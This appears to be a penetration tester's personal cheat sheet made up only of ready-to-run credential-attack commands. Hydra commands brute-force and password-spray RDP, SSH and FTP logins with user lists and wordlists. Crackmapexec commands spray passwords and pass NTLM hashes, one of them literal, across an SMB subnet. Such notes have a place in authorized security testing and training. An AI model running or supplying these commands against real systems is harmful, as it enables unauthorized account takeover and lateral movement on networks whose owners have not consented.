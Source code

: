 public:: true

- RDP
  ```bash
  hydra -L users.txt -p 'passw0rd' -M machines-rdp.txt -t 4 rdp -V
  ```
  ```bash
  hydra -L users.txt -P wordlist.txt -M machines-with-rdp.txt -t 4 rdp -V
  ```
- SSH
  ```bash
  hydra -L users.txt -p 'passw0rd' -M machines-rdp.txt -t 4 ssh -V
  ```
  ```bash
  hydra -L users.txt -P wordlist.txt -M machines-rdp.txt -t 4 ssh -V
  ```
- SMB
  ```bash
  crackmapexec smb 172.16.197.0/24 -u domain_users.txt -p 'passw0rd'
  ```
  ```bash
  crackmapexec smb 172.16.197.0/24 -u domain_users.txt -p wordlist.txt
  ```
  ```bash
  crackmapexec smb 172.16.197.0/24 -u domain_users.txt -H '82a73cad8b8ff3ad60fad51502d0cfa5'
  ```
  ```bash
  crackmapexec smb 172.16.197.0/24 -u domain_users.txt -H hashes.txt
  ```
- FTP
  ```bash
  hydra -L users.txt -P passwords.txt -t 4 -V ftp://192.168.231.245
  ```